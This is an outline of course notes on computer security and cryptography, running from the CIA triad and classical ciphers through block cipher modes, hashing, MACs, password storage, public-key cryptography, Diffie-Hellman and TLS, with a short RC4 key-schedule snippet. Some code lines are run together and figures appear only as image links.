System Security
system properties preserved in face of attack
System Correctness
system satisfies specification
CIA
Confidentiality
Protecting data against unintentional, unlawful, or unauthorized access, disclosure, or theft
Integrity
Protecting data against improper maintenance, modification, or alteration, and data authenticity
Availability
Protecting the accessibility and continuity of access to information
Different states of data
Data-in-use
Data-at-rest
Data-in-transit
Trustworthiness
A characteristic of an entity that reflects the degree to which that entity is deserving of trust.
Transparency
Benevolence/goodwill
Integrity
Track record
Integrity
Verification
what you are trying to protect, and against whom you wish to protect it
Attacker’s motivations
Backdoors

Enables confidentiality of communications
Attacker model
Symmetric encryption
Same secret key to encrypt/decrypt
DECk(ENCk(M)) = M
Key sharing
Key shared over a "secure channel"
Symmetric ciphers
2 famous classical symmetric ciphers
Caesar cipher
One-time pad
Modern symmetric ciphers
DES (Not recommend)
AES
Chacha20
Shift/Caesar cipher
Simple substitution cipher
Each letter is replaced by another
Encrypt
c = E(k, p) => (p + k) mod 26
Example: c = E(3, p) => (p + 3) mod 26
Decrypt
p = D(k, c) => (c - k) mod 26
Math - mod
a ≡ b mod n
n divides (a – b)
implies: a mod n = b mod n
How to attack encryption
Cryptanalysis
Find the weaknesses in the algorithms
Brute-force
Try all possible keys
Many others – malware, key/screenlogger, physical and side-channel attacks, implementation bugs, key backdoor, legal means
Brute force key search
Given: ciphertext c, and the cipher used
K is the key space (all possible keys), size of K is |K|
For each key k in KCalculate m’ = D(k,c) = Dk(c)Does m’ look like a real message?Yes-->done!No --> continueExpect to try |K|/2 keys before correct match
Language redundancy & cryptanalysis
Monoalphabetic ciphers retain their relative letter frequencies
Count relative letter frequencies
Vernam cipher
C = M ⊕ k
=> C ⊕ k = M ⊕ k ⊕ k = M ⊕ 0
C ⊕ k = M
One-Time Pad
Vernam cipher with such a keystream is called a one-time pad
The one-time pad is provably secure
One‐time pad: keystream
Not re-used
Random
Example
IFC1 = M1 ⊕ kC2 = M2 ⊕ kM1 != M2==>C1 ⊕ M1 = kC1 ⊕ C2 = M1 ⊕ M2==>(C1 ⊕ C2) ⊕ M1 = M2
Block Cipher
Plaintext message is broken into fixed-length blocks before encryption
1 block is processed at a time
Stream Cipher
block length is one
requires only limited buffering of data
Example
Ceasar, Vernam, OTP
Algorithm
Stream Cipher Algorithm = SC
Nonce = N
Key Stream: KS = SC(K, N)
Encrypts: C = P ⊕ KS
Decrypts: P = C ⊕ KS
Stateful stream cipher

Counter-based stream ciphers

Synchronization
Synchronous stream ciphers
Self-synchronizing stream ciphers
Key scheduling algorithm of RC4
Initialize
K = b"..."n = len(K)# set S to the array S[0]=0, S[1]=1, …, S[255]=255S = list(range(256))j = 0# iterate over i from 0 to 255for i in range(256): # compute the sum of v j = (j + S[i] + K[i % n]) % 256 # swap S[i] and S[j] S[i], S[j] = S[j], S[i]Key Stream
m = b"message"KS = [0] * len(m)
i, j = 0, 0for b in range(len(m)): i = (i + 1) % 256 j = (j + S[i]) % 256 # swap S[i] and S[j] S[i], S[j] = S[j], S[i] KS[b] = S[(S[i] + S[j]) % 256]Pseudo Randomness
Solution
Combine deterministic algorithm with true randomness
RNG + PRNG
CSPRNG
A function that maps 𝑛𝑛‐bit plaintext blocks to 𝑛𝑛‐bit ciphertext blocks
Encryption
C = E(K, M) = E k (M)
Decryption
M = D(K, C) = D k (C)
Bijection
Ek must be a bijection as the process must be reversed
Bijection: one-to-one and onto
Feistel cipher
Cipher that maps P = (𝐿0, 𝑅0) to (𝑅𝑟, 𝐿𝑟) using 𝑟 rounds
DES
Advanced Encryption Standard (AES)
Important properties of Block Ciphers
Confusion
Depth
Diffusion
Breadth
Substitution-permutation network (SPN)
Avalanche effect
Slight change in input significantly changes the output
Strongly desired property of
Block Ciphers
Crypto Hash Function
Modes of operation
Electronic Code Book (ECB)
Encrypt: Ci = Ek (Pi)
Decrypt: Pi = Dk (Ci)
Not recommend
Cipher Block Chaining (CBC)

Properties
Chaining causes ciphertext 𝐶𝑖 to depend on all preceding plaintext
The same key, IV, and plaintext results in identical ciphertext
A single bit error in 𝐶𝑖 affects decryption of blocks 𝐶𝑖 and 𝐶𝑖+1
Self‐synchronizing
Counter (CTR) mode

Encrypt: c = Ek(Nonce + Counter) ⊕ P
Decrypt: P = Ek(Nonce + Counter) ⊕ C
Properties
Counter must be different for each block
An IV/nonce value is also used with the counter for uniqueness
Software and hardware efficiency
Preprocessing
Random access
Security properties of cryptographic hash functions
Pre-image resistance
For a given hash y, it is computationally infeasible to find any value x
s.t. h(x) = y
Computationally infeasible
Called one-way property
Practical world
Collision resistance (2 types)
Intuition
Input space is much bigger than output set
Some input values will be “mapped” to the same output value
Type
Collisions are exploited when attacking the hash function
Two types of collision resistance
Weak (Second Pre-image resistance)
HARD
x (therefore y) is already chosen, find x'
Strong
Simpler to break, but still difficult
Both x and x' can be chosen
Internal designs

MD5, SHA-1 and SHA-2 are based on a Merkle–Damgård construction
Based on collision-resistant & one-way compression function
SHA-3 uses a sponge construction
data is "absorbed" into the sponge, result is "squeezed" out
Attacking collision resistance
Weak collision resistance
x is fixed, find x'
Attack Method
Exhaustive Search (if hash is secure)
Collision resistance
choose x and x'
Much easier due to the birthday paradox
Message authentication
integrity of data
identity of the party that originated the data
MAC

Security properties
unable to forge a correct tag t for a given message m & unable to generate any new pair of msg and tag
MACs do not provide non-repudiation
A MAC is often a keyed hash function
based on a block cipher
Authenticated encryption constructions
MAC-then-Encrypt (MtE)
Formula
Ek2 (m || h k1(m))
Steps
HMAC the plaintext
Encrypt the plaintext with HMAC
Send the result
Encrypt-then-MAC (EtM)
Formula
Ek2 (m) || h k1 ( Ek2 (m) )
Steps
Encrypt the plaintext
HMAC the ciphertext
Send both
Authenticated encryption modes
AE produces a ciphertext + authentication tag
= encryption + MAC, all-in-one
AEAD
To authenticate data along with the authenticated encryption, some ciphers support associated data
Authenticated Encryption with Associated Data
Examples
GCM Mode
CCM Mode
Advantages of passwords
Familiar to people
You can have many different ones
Difficult to coerce
Nothing to carry
Easy to revoke / replace
Disadvantages of passwords
Predictability
Interference between multiple passwords
Requiring a large portfolio of passwords
Easy to deploy incorrectly / naively
Deploying passwords
Logging into an online or local account
Encrypting a local file using a password
Password-Based Key Derivation Functions (PBKDF)
Dictionary attack
Cannot "invert" the hash function
Can only "brute-force"
Hash all the possible, and find the correct one
Rainbow tables (A method to attack, use salt in hashing can avoid)
Tradeoff between space and time
Merging (=> index-based reduction)
False alarms (inevitable)
Find password in a random table

Counter brute-force and rainbow tables
Use salt
hash = h(salt || password)
Salt is random and not a secret
Best practices for storing passwords
Passwords should never be stored in plaintext
Passwords should be hashed
Hash functions designed for efficiency
Not good
Password-specific hash functions
Entropy (random passwords)
For random passwords, information entropy
Formula: H = log2(N^L)
Consider alpha-numerical random passwords
How to improve the strength of password
Password policies
Password-strength meters
Threats to password security
Phishing attacks
Shoulder surfing (observation)
Poor implementation / deployment
Online attack against live system
Rate-limiting
Attack against password-protected file
Offline attack against stolen database
HOTP/TOTP
HOTP (K, C) = HMAC k (C)
C is a counter, incremented each time
In TOTP, C = | T / Tx |
T: Current Timestamp
Tx: length of one time duration
Disadvantages
Plaintext Code
User need to verify the domain
Maybe have Man-in-the-middle attack
Shared Secret don't know Server side store in plaintext or cipher text
FIDO2
Problems with symmetric keys
Pre-share key with intended recipient -> not practical
Make sure the key is not intercepted -> difficult
One symmetric key by pair of (sender, recipient) -> not scalable
Public-key cryptography
Encryption/decryption
Digital signature
Key exchange
Public key (asymmetric) encryption
Each party has a pair of keys: a public key P, and a secret (or private) key S
DEC s (ENC p (M)) = M
Key pair generation
pk = KeyGen(sk)
sk: must remain secret to the signer
pk: is the public key, it is meant to be distributed
KeyGen easy to compute
Man-in-the-middle attack

Signing
σ = sign(m, sk, r)
sign is deterministic
Despite r
Given the same {m, sk, r}, same output
Signature verification
{T | F} = Verify(m, σ, pk)
m: Message that was signed
pk: Public Key
σ: Signature to verify, includes r somehow
Hash & sign
Message of any size because of one trick
First, take a hash of the message, then sign it
σ = sign(H(m), sk, r)
Signing / Verifying

DH key exchange
Prior to the key exchange, Alice and Bob agree on a set of parameters
p -> a large prime integer
g -> a primitive root mod p
p, g -> both are public
Session key is then obtained by both parties calculating
K AB = g^ab mod p
Alice can compute this by
(g^b)^a mod p
Bob can compute this by
(g^a)^b mod p
Eve needs either a or b to compute this key!
g^a g^b mod p = g^(a+b) mod p
Man-in-the-middle on DH
Previous DH key exchange is called anonymous because public parameters g^a and g^b are not authenticated
SSL and TLS are cryptographic protocols designed to provide secure communication over insecure infrastructure.
Security properties ensured by TLS
Confidentiality
Message authenticity
Authentication
Server authentication
Client authentication
SSL/TLS do not enforce
Non--repudiation
Availability
Overview of TLS

Certificates
Set of public keys and identification information
Signed by some other source, signatures included in certificate
Source is normally a trusted third party
Signatures provide integrity and authenticity guarantees
Root certificates are self-signed
Certificate Authorities (CA)
CA responsible to verify identity before issuing certificate
Certificates on the web are binding a domain name
TLS is used to secure communications
Chain of Trust

Handshake Protocol
The result is a shared secret (master secret), i.e. Derive into multiple keys for (authenticated) encryption
TLS 1.3 handshake simplified
